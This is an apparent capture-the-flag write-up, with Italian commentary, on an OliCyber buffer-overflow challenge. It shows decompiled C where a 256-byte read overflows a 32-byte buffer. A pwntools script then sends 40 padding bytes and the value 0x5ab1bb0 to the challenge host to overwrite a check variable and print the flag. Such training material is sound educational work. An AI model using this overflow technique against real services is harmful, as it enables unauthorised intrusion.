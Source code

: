 # Enterprise encryption

```c
  local_20 = 0;
  puts("Hello, what\'s your name?");
  sVar1 = read(0,local_48,256);
  local_48[(int)sVar1 + -1] = '\0';
  printf("Hello %s, ",local_48);
  if (local_20 == 0x5ab1bb0) {
    param1 = getenv("FLAG");
    printf("the flag is %s\n",param1);
  }
  else {
    puts("no flag for you >:(\n");
  }
```

devi cambiare il valore della variabile local_20 facendo buffer overflow, `char local_48 [32]` siccome c'è un buffer di 32 byte e in read c'è un buffer di 256, quindi con questo, cerco di calcolare quante A servono per fare buffer overflow provando

```py
from pwn import *

p = remote('lil-overflow.challs.olicyber.it', 34002)

payload = b''
payload += b'A'*40
#payload += p32(95099824)
payload += p64(0x5ab1bb0)


p.sendline(payload)
p.stream()
```

flag{}


references : https://ctftime.org/writeup/27928
https://0xrick.github.io/binary-exploitation/bof2/